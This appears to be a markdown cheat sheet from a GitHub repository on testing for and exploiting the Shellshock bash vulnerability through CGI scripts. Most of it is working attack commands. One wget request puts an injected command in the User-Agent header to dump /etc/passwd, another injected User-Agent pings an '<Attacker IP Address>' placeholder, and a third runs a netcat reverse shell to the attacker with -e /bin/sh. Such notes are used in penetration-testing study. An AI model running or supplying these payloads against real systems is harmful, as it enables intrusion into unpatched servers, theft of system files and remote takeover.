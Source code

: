 # Shellshock
##### Test for Shellshock Vulneratbility
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"

# Create environment variable x of function () { :;};
# "echo vulnerable" is outside of the variable x funtion.
# If bash echoes "vulnerable," it is vulnerable.
# If it echoes "this is a test," it is not vulnerable.
```

##### Test for Shellshock Vulneratbility using User-Agent
```bash
User-Agent = () { :;}; ping -c 5 -p "Test String" <Attacker IP Address>
```

##### Test for Shellshock Vulneratbility using CGI
```bash
# Find *.cgi programs on target
./dirsearch.py -u http://<IP Address> -e cgi -r
# Assume returns /cgi-bin/login.cgi

nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <IP Address> -p 80
```

##### Attack Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo \"Content-Type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://<IP Address>/cgi-bin/login.cgi && cat login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
# It creates a local file, login.cgi, on the target, and cats the file.
```

##### Establish Reverse Shell with Shellshock
```bash
# Assuming dirsearch returns /cgi-bin/login.cgi

wget -U "() { foo; }; echo; /bin/nc <Attacker IP Address> <Listening Port> -e /bin/sh" http://<IP Address>/cgi-bin/login.cgi
# Makes HTTP request, setting User-Agent (-U) to the string.
```

# References
[Bash (Unix shell)](https://en.wikipedia.org/wiki/Bash_(Unix_shell))

# Shellshock References
[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))

[CVE-2014-6271](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#Initial_report_(CVE-2014-6271))

[CVE-2014-6277](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277)

[CVE-2014-6278](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6278)

[CVE-2014-7169](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7169)

[CVE-2014-7186](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7186)

[CVE-2014-7187](https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-7187)

[nmap http-shellshock](https://nmap.org/nsedoc/scripts/http-shellshock.html)